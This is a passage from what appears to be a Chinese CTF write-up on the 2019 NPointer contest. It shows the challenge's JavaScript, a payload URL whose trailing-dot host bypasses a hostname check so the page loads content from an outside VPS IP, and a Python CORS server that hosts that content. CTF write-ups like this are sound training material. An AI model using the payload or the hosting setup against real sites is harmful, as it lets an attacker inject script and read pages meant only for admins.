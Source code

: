 反弹shell

最后一步还是有些不明白的地方, 回头来看.

## 2019 空指针ctf 公开赛

hint页面要求是admin才能访问, 那么思路大概清楚了, 就是通过csrf让admin去访问hint然后把响应内容发送回来, 比赛的时候没看js代码就做题就是铁憨憨行为.

```javascript
function isProd(){
    return window.location.host=='treasure.npointer.cn';
}

function loadPage() {
    if (!window.location.hash) {
        window.location.hash = '#home'
    }

    url = window.location.hash.substring(1)+'.html';
    //调试太麻烦了，日常测试放开限制
    if(isProd()) {
        url = window.location.origin + '/' + url;
    }
    $.get(url, function(result){
        $("#content").html(result);
    });

}

window.addEventListener('hashchange',function(event){
   loadPage();
});

loadPage();
```

简单理解一下就是: 当锚点变化的时候, 就判断host, 如果host是``treasure.npointer.cn``就加载``treasure.npointer.cn加锚点加html的值``, 如果不是, 那么就直接加载锚点加上html的值, payload

```
http://treasure.npointer.cn./index.html#http://39.105.176.37:8000/bot
```

这里域名后面的``./``也是第一次见识, 他确实能访问到``treasure.npointer.cn``但是host名不再是``treasure.npointer.cn``了, 那么就可以绕过对主机名的判断直接请求锚点后面的值了. 

这里有点坑, 其实是自己第一次接触太菜了.因为同源策略的影响, 服务端那边必须要设置``Access-Control-Allow-Origin=*``否则vps那边会拒绝跨域请求

使用以下脚本在同目录下执行开启python的服务器

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

try:
    from http.server import HTTPServer, SimpleHTTPRequestHandler, test as test_orig
    import sys
    def test (*args):
        test_orig(*args, port=int(sys.argv[1]) if len(sys.argv) > 1 else 8000)
except ImportError: # Python 2
    from BaseHTTPServer import HTTPServer, test
    from SimpleHTTPServer import SimpleHTTPRequestHandler

class CORSRequestHandler (SimpleHTTPRequestHandler):
    def end_headers (self):
        self.send_header('Access-Control-Allow-Origin', '*')
        SimpleHTTPRequestHandler.end_headers(self)

```